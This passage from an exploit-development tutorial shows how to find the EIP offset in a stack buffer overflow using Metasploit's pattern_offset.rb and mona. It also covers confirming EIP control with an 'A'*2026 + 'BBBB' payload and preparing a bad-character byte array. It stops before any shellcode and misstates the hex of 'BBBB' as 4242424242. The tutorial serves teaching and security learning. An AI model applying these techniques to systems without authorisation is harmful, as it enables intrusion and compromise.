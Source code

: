 We execute this and we see that the application crashes. Because we know that when the function returns it writes the return address to EIP we will look at the value of EIP when it crashes. In Immunity Debugger we see:

![The value of EIP after the cyclic pattern is used in the overflow](/images/binexp-corner-1/bof3.png)

`70433570` - is the value of the EIP when we fed it the cyclic payload. We have two options of using this to get the value of the offset.

The first is to use the metasploit pattern_offset.rb tool to do this:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <EIP value>`

The second is to use the immunity plugin, mona:

`!mona findmsp -distance <length>`

(findmsp - read find metasploit pattern)

We get an offset of 2026 bytes.

If all went well we should be able to overwrite our EIP with "BBBB" if we feed it a string:

`payload = 'A' * 2026 + 'BBBB'`

![EIP Overwritten](/images/binexp-corner-1/bof4.png)

Success. The hex representation of BBBB is 4242424242. We control the the EIP.

### Finding Bad Characters

Now, there's a thing we need to account for which is bad characters. These are characters that get modified by the program when loading things into the buffer. 

This is important because if we use these in either the EIP or the shellcode it will break our exploit. Character `'\x00'` is always a bad characters so we don't need to look for that one.

What we do to identify this is to send a string with all the individual distinct hex codes to the application (after the EIP) and then comparing it to what actually gets stored in memory.

So we need a bytearray with all the possible combinations. We can grab this from google:

```python
badChars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```
